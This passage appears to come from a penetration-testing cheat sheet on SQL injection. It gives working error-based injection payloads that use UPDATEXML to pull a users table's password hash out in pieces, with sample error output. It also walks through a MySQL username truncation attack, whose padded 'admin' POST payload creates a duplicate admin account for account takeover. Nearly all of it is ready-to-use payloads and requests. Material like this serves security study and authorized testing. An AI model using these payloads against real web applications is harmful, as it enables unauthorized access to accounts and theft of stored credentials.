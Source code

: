 ```bash
' AND UPDATEXML(NULL,CONCAT(0x3a,(SELECT SUBSTRING(password,1,16) FROM users)),null)-- -
```

If the error result appears such like the following, we retrieved the piece of the password hash.

```bash
XPATH syntax error: ':3ac6b24dc611a692'
```

So we can find the remaining of the password hash by injecting below command.

```bash
' AND UPDATEXML(NULL,CONCAT(0x3a,(SELECT SUBSTRING(password,17,32) FROM users)),null)-- -
```

<br />

## Truncation Attack

We can add another user which is the same name as the existing user by registering the same name user with enough “spaces” to truncate a username.  
First off, check the table schema if can.

```sh
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
```

Now send POST request with a payload to create a new admin.

```sh
# POST request
POST /create-user HTTP/1.1

# Create another new "admin" with more than 64 characters. Btw, "+" means the spaces.
username=admin+++++++++++++++++++++++++++++++++++++++++++++++++++++++++random&password=password
```

Then check if we can login with a new admin.

```sh
username=admin&password=password
```

Fetch the admin's information with the original password.

```sh
SELECT * FROM users WHERE username='admin';

# It should return the values are the real admin's information.
username = admin
password = <REAL_ADMIN_PASSWORD>
```

